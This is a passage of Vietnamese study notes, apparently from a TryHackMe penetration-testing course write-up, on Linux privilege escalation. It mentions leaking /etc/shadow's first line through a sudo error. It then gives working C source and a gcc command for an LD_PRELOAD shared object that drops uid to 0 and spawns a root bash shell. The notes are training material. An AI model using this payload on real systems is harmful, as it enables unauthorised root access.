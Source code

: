 Việc tải tệp /etc/shadow bằng tùy chọn này sẽ dẫn đến thông báo lỗi bao gồm dòng đầu tiên của tệp /etc/shadow.

**Leverage LD_PRELOAD**

Trên một số hệ thống, có thể thấy tùy chọn môi trường LD_PRELOAD.

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image57.png?raw=true)

LD_PRELOAD cho phép mọi chương trình sử dụng thư viện dùng chung. Nếu tùy chọn "env_keep" được bật, có thể tạo thư viện dùng chung để tải và thực thi trước khi chương trình chạy. Tuy nhiên, LD_PRELOAD bị bỏ qua nếu ID người dùng thực khác với ID hiệu quả.

**Các bước thực hiện**

- Kiểm tra LD_PRELOAD (với tùy chọn env_keep)
- Viết mã C đơn giản và biên dịch thành tệp .so (shared object)
- Chạy chương trình với quyền sudo và thiết lập LD_PRELOAD trỏ đến tệp .so

Mã C đơn giản tạo ra một root shell có thể được viết như sau: 

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>


    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

Lưu mã này dưới dạng shell.c và biên dịch nó bằng gcc thành tệp đối tượng dùng chung bằng các tham số sau: 

    gcc -fPIC -shared -o shell.so shell.c -nostartfiles

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image68.png?raw=true)

Bây giờ có thể sử dụng shared object này khi khởi chạy bất kỳ chương trình nào mà người dùng của có thể chạy với sudo

